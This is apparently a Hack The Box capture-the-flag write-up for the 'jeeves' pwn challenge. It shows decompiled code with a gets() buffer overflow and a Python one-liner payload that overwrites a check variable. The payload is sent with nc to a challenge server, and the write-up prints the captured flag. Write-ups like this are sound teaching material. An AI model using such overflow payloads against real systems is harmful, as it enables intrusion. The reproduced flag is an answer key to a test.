

>[!quote]
> *How are you doing, sir?*


# Set up



Instance on HTB

# Information Gathering

File info:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

Strings:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ strings jeeves
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
printf
read
malloc
close
open
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c
...
```

## Decompiled code

Ghidra decompiled code:

```bash
undefined8 main(void)
{
  char name [44];
  int local_1c;
  void *local_18;
  int n;
  
  n = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(name);
  printf("Hello %s, hope you have a good day!\n",name);
  if (n == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```

# The Bug

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'print "A" * 80' | ./jeeves
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, hope you have a good day!
zsh: done                python -c 'print "A" * 80' |
zsh: segmentation fault  ./jeeves
```

# Exploitation

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'import struct; print struct.pack("I",0x1337bab3)*16' | ./jeeves
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: this is the flag
```

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ nc 139.59.167.178 31192 < input.txt 
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

# Flag

>[!success]
>`HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}`